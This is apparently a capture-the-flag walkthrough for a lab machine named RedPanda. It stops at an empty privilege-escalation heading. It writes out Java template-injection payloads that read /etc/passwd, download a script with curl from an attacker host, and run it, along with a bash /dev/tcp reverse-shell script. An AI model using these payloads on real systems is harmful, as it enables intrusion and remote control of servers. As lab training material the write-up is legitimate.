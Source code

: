 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/test.sh ")}
```
Getting our reverse shell...
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 



Getting user flag....



### Priviledge Escalation...




